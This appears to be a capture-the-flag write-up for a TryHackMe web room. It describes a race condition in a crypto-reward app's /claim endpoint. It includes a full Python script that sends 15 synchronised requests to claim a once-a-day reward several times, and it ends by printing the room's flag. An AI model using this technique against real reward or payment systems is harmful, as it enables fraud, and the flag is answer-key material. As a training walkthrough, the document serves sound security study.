







# Towel on the Sunbed

Date: August 03, 2026

## Information

- Challenge: [Towel on the Sunbed](https://tryhackme.com/room/hh-towelonthesunbed-61271709)
- Category: Web
- Difficulty: Medium
- Description:

```text
Ponzi found the resort's wellness portal running a little side project called Ponzi — a crypto rewards app, poolside edition. He set his towel down, claimed his daily reward, and went to reapply sunscreen. He came back to find the sunbed had been "claimed" three times over while he wasn't looking.

He's convinced the app owes him a spot in the Whale Vault. The app disagrees, politely, once every 24 hours. Somewhere between his request and the server's clock, there's a gap wide enough to walk a whale through.
```

## Solution

The description suggests that the application may be vulnerable to a **Race Condition**.

```text
He came back to find the sunbed had been "claimed" three times over while he wasn't looking.

He's convinced the app owes him a spot in the Whale Vault. The app disagrees, politely, once every 24 hours.
```

After accessing the website and registering a new account, I was redirected to a dashboard displaying my PONZI balance, market prices, and two main features:

```text
Claim Reward: Earn 50 PONZI every 24 hours.
Open Vault: Available only when the balance reaches at least 150 PONZI.
```







Under normal conditions, I would have to wait **3 days** to collect enough PONZI to unlock the vault. Since I did not want to wait, I decided to test for a Race Condition vulnerability.

```text
The server-side logic can be summarized as follows:

1. Check whether the user has already claimed the reward.
2. If not, add 50 PONZI to the user's balance.
3. Update the last claim time in the database.

Because the server does not properly synchronize concurrent requests, multiple requests arriving at almost the same time can all complete step 1 before any of them reaches step 3. As a result, every request believes the reward is still available and credits the balance independently.
```

First, I needed to determine which endpoint was called when clicking the **Claim Reward** button.

By checking `dashboard.js`, I found that the request was sent to the `/claim` endpoint.



Since I had already clicked the **Claim Reward** button with my current account, I created a new account and copied its session cookie.



After identifying the `/claim` endpoint and obtaining my session cookie, I wrote the following Python script. The goal was to send **15 POST requests simultaneously** to the `/claim` endpoint and trigger the Race Condition.

The script uses `threading.Barrier` to make all worker threads wait until every thread is ready. Once all threads reach the barrier, they are released simultaneously, maximizing the chance of triggering the Race Condition.

```python
import requests
import threading

# --------------------------------------

HOST = "http://<YOUR_LAB_IP>:3000"
URL = HOST + "/claim"

COOKIES = {
    "connect.sid": "<YOUR_COOKIE>"
}

# --------------------------------------

NUMBER_OF_REQUESTS = 15

results = []
results_lock = threading.Lock()

def claim_once(index):
    try:
        response = requests.post(
            URL,
            headers={},
            cookies=COOKIES,
            timeout=10
        )

        with results_lock:
            results.append((index, response.status_code, response.text[:300]))

    except Exception as e:
        with results_lock:
            results.append((index, "Error", str(e)))


def main():
    threads = []
    barrier = threading.Barrier(NUMBER_OF_REQUESTS)

    def worker(i):
        barrier.wait()
        claim_once(i)

    for i in range(NUMBER_OF_REQUESTS):
        t = threading.Thread(target=worker, args=(i,))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

    print(f"\n{'-'*15}\n")
    success_count = 0
    for idx, status, text in sorted(results):
        print(f"[{idx}] status={status} | body={text}")

        if status == 200 and ("success" in text.lower() or "claimed" in text.lower()):
            success_count += 1

    print(f"\n[+] Success: {success_count}/{NUMBER_OF_REQUESTS} requests")
    if success_count > 1:
        print("\n[+] Race Condition detected")
    else:
        print("\n[-] No Race Condition detected. Make sure NOT TO PRESS the Claim button!")
        print("[*] Try registering another account and test again.\n")


if __name__ == "__main__":
    main()
```

After running the script, it worked as expected. The Race Condition was successfully triggered, allowing me to claim the reward **7 times**.



After refreshing the page, my balance had increased to **350 PONZI**.



Finally, I clicked **Open Vault** and obtained the flag.

## Flag

```text
THM{t0w3l_0n_th3_sunb3d_d0ubl3_sp3nt}
```